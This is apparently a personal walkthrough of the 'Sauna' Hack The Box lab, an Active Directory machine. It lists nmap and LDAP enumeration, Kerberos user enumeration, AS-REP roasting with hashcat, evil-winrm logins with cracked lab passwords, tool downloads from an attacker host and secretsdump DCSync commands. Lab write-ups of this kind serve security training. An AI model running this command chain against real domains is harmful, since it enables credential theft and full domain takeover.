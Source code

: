 # Summary



## about target

tip:  10.129.95.210

hostname:  Sauna

Difficulty:  Easy



## about attack

+ domain user enum, generate the user list with name on web.
+ Generic all, to Dcsync  exploit.





**attack note**

```bash
Sauna / 10.129.105.178

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap?
| fingerprint-strings:
|   LDAPSearchReq:
|     domainFunctionality1
|     forestFunctionality1
|     domainControllerFunctionality1
|     rootDomainNamingContext1
|     DC=EGOTISTICAL-BANK,DC=LOCAL0
|     ldapServiceName1
|     4EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL0
|     isGlobalCatalogReady1
|     TRUE0
|     supportedSASLMechanisms1
|     GSSAPI
|     GSS-SPNEGO
|     EXTERNAL
|     DIGEST-MD50
|     supportedLDAPVersion1
|     supportedLDAPPolicies1
|     MaxPoolThreads
|     MaxPercentDirSyncRequests
|     MaxDatagramRecv
|     MaxReceiveBuffer
|     InitRecvTimeout
|     MaxConnections
|     MaxConnIdleTime
|     MaxPageSize
|     MaxBatchReturnMessages
|     MaxQueryDuration
|     MaxDirSyncDuration
|     MaxTempTableSize
|     MaxResultSetSize
|     MinResultSets
|     MaxResultSetsPerConn
|     MaxNotificationPerConn
|     MaxValRange
|     MaxValRangeTransitive
|     ThreadMemoryLimit
|     SystemMemoryLimitPercent0
|_    supportedControl1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  unknown



---- interesting
Domain Name: EGOTISTICALBANK
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766

Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) 

domain from dns:  sauna.egotistical-bank.local

users from http page, team

fsmith:Thestrokes23
svc_loanmanager:Moneymakestheworldgoround!

---- enum

crackmapexec smb $tip -u '' --pass-pol

enum4linux -a $tip | tee enum4linux.log

dig ANY @$tip EGOTISTICAL-BANK.LOCAL

ldapsearch -H ldap://$tip:389 -x -b "DC=EGOTISTICAL-BANK,DC=LOCAL" '(Objectclass=user)' samaccountname | grep -i samaccountname

# found user hugo smith
ldapsearch -H ldap://$tip:389 -x -b "DC=EGOTISTICAL-BANK,DC=LOCAL" > ldap-anonymous.log

# user enum
kerbrute userenum -d egotistical-bank.local  --dc egotistical-bank.local
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc egotistical-bank.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt


---- exploit

GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip egotistical-bank.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt

crackmapexec winrm $tip -u fsmith -p 'Thestrokes23'

evil-winrm -u fsmith -p Thestrokes23 -i $tip

---- privesc

iwr -uri http://10.10.14.47/wpeas.exe -outfile wpeas.exe

.\wpeas.exe log=wp.log

iwr -uri http://10.10.14.47/sh.exe -outfile sh.exe

.\sh.exe --CollectionMethods All

crackmapexec winrm $tip -u svc_loanmgr -p 'Moneymakestheworldgoround!'
crackmapexec smb $tip -u svc_loanmgr -p 'Moneymakestheworldgoround!' --shares

secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'

secretsdump.py -just-dc egotistical-bank.local/fsmith:Thestrokes23@$tip
secretsdump.py -just-dc egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@$tip


```



# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```





## dns enum

```bash
 dig ANY @$tip EGOTISTICAL-BANK.LOCAL
```



![image-20221204151422117](./images/image-20221204151422117.png)



## http enum



User from http page, http://10.129.105.178/about.html

```bash
Fergus smith
shaun coins
hugo bear
bowie taylor
sophie driver
steven kerb
```



![image-20221204151613080](./images/image-20221204151613080.png)



## ldap enum





![image-20221204152258430](./images/image-20221204152258430.png)



## kerberos 



enum user. 

![image-20221204160346658](./images/image-20221204160346658.png)





# Exploit





![image-20221204161419478](./images/image-20221204161419478.png)



![image-20221204161402364](./images/image-20221204161402364.png)





![image-20221204161656146](./images/image-20221204161656146.png)



# Privesc



## Local enum



```bash
   DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
   DefaultPassword               :  Moneymakestheworldgoround!
```



![image-20221204202237848](./images/image-20221204202237848.png)





![image-20221204224410764](./images/image-20221204224410764.png)



![image-20221204224502297](./images/image-20221204224502297.png)



![image-20221204222846075](./images/image-20221204222846075.png)



## system



```bash
```





## proof

```bash


```



